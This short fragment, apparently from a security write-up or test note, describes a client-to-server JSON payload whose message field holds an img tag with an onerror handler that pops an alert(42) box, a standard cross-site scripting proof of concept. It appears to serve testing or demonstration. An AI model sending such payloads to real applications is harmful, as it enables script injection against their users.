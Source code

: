 The following payload was sent from client to the server. If executed successfully an alert with the message 42 pops up!

`{"message":"<img src=x onerror='alert(42)'>"}`


